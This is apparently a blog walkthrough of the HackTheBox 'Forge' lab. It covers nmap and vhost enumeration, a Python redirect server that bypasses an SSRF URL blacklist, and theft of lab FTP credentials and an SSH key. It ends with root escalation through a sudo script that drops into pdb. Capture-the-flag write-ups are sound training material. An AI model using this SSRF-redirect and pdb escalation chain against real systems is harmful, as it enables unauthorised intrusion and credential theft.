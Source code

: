 ```yaml
---
title: "HackTheBox - Forge"
date: 2022-07-29T12:26:51-04:00
draft: false
tags: []
author: "Trent Deal"
showToc: true
TocOpen: false
hidemeta: false
comments: false
description: ""
disableHLJS: false
disableShare: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: false
ShowRssButtonInSectionTermList: true
UseHugoToc: false
cover:
    image: "" # image path/url
    alt: "" # alt text
    caption: "" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
---
```


```nohighlight
# Nmap 7.92 scan initiated Wed Jul 27 18:34:26 2022 as: nmap -sS -sCV -oA scans/nmap/init 10.10.11.111
Nmap scan report for 10.10.11.111
Host is up (0.025s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:78:65:66:29:e4:87:6b:3c:cc:b4:3a:d2:57:20:ac (RSA)
|   256 79:df:3a:f1:fe:87:4a:57:b0:fd:4e:d0:54:c6:28:d9 (ECDSA)
|_  256 b0:58:11:40:6d:8c:bd:c5:72:aa:83:08:c5:51:fb:33 (ED25519)
80/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://forge.htb
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 27 18:34:35 2022 -- 1 IP address (1 host up) scanned in 9.23 seconds
```

- nmap does not follow redirect to http://forge.htb, add it to /etc/hosts and run gobster vhost
    - ftp is also filtered, yay

```nohighlight
trent@kali[Forge]$ cat /etc/hosts
...
10.10.11.111    forge.htb admin.forge.htb
...
```

```nohighlight
trent@kali[Forge]$ gobuster vhost -u http://forge.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -r
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://forge.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/07/27 18:49:01 Starting gobuster in VHOST enumeration mode
===============================================================
Found: admin.forge.htb (Status: 200) [Size: 27]

===============================================================
2022/07/27 18:49:25 Finished
===============================================================
```

![Admin interface only available on localhost](/images/forge/website/admin/only_localhost_allowed.png)

![Homepage for http://forge.htb](/images/forge/website/homepage.png)

- http://forge.htb/upload can be used to upload images by file or url
 
- uploading by url and making it callback to a netcat listener shows the request was made by
  python-requests/2.25.1, so the server is likely running some python web server

![Upload from url](/images/forge/website/upload_from_url.png)
![python-requests version](/images/forge/website/python_requests_callback.png)

- url uploads only accept http/https

![Blacklist protocols](/images/forge/website/forge_htb_blacklisted_url_uploads.png)

- Cant make requests to http://forge.htb or http://admin.forge.htb

![Blacklisted urls](/images/forge/website/forge_htb_blacklisted_url_uploads.png)

- we can get around the blacklist by redirecting to where we actually want to go. We then can
  navigate to the generated link on the website and we can view the raw page in burpsuite

```python
#!/usr/bin/env python3

# https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass#bypass-via-redirect
# python3 ./redirector.py 8000 http://127.0.0.1/

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
    print("Usage: {} <port_number> <url>".format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(302)
       self.send_header('Location', sys.argv[2])
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

- We cant see the site in the browser cause it tries to render the page as a jpg, but we can see the
  html in Burpsuite

![Successful ssrf attack](/images/forge/website/admin/homepage_html_via_ssrf_redirect.png)

- we have found some ftp creds, yay
    - user:heightofsecurity123!

![FTP credentials and internal /upload](/images/forge/website/admin/announcements.png)

- making a call to http://admin.forge.htb with the creds shows the ftp files, had to escape the ! in
  the password to make the script work
  
```class="nohighlight"
trent@kali[Forge]$ ./redirect.py "http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123%21@10.10.11.111"
10.10.11.111 - - [28/Jul/2022 17:14:08] "GET / HTTP/1.1" 302 -
```

- running the same script to search for .ssh in ftp shows there is an id_rsa there. Score

![ftp ssh folder](/images/forge/ftp/ssh_folder.png)
![ftp id_rsa](/images/forge/ftp/id_rsa.png)

- we can then login as the "user" user with ssh

![Shell as user](/images/forge/shell_as_user.png)
![User flag](/images/forge/user_get.png)

- running linpeas shows "user" can run "/usr/bin/python3 /opt/remote-manage.py" without a password 

![linpeas sudo -l results](/images/forge/linpeas/sudo_l.png)

```python
# /opt/remote-manage.py

#!/usr/bin/env python3
import socket
import random
import subprocess
import pdb

port = random.randint(1025, 65535)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('127.0.0.1', port))
    sock.listen(1)
    print(f'Listening on localhost:{port}')
    (clientsock, addr) = sock.accept()
    clientsock.send(b'Enter the secret passsword: ')
    if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
        clientsock.send(b'Wrong password!\n')
    else:
        clientsock.send(b'Welcome admin!\n')
        while True:
            clientsock.send(b'\nWhat do you wanna do: \n')
            clientsock.send(b'[1] View processes\n')
            clientsock.send(b'[2] View free memory\n')
            clientsock.send(b'[3] View listening sockets\n')
            clientsock.send(b'[4] Quit\n')
            option = int(clientsock.recv(1024).strip())
            if option == 1:
                clientsock.send(subprocess.getoutput('ps aux').encode())
            elif option == 2:
                clientsock.send(subprocess.getoutput('df').encode())
            elif option == 3:
                clientsock.send(subprocess.getoutput('ss -lnt').encode())
            elif option == 4:
                clientsock.send(b'Bye\n')
                break
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)
finally:
    quit()
```

- script runs pdb when it hits an exception, which we can force by sending a lot of characters to
  the socket.
    - To do this, we need to open an ssh session that runs the script, and another that connects to
      it, since it only listens on localhost
    - then we can import os and execute code from there in pdb
    - UPDATE: it actually just needs to be a non number, but 1024 "A" also works

![Shell as root](/images/forge/shell_as_root.png)
![Root flag](/images/forge/root_get.png)

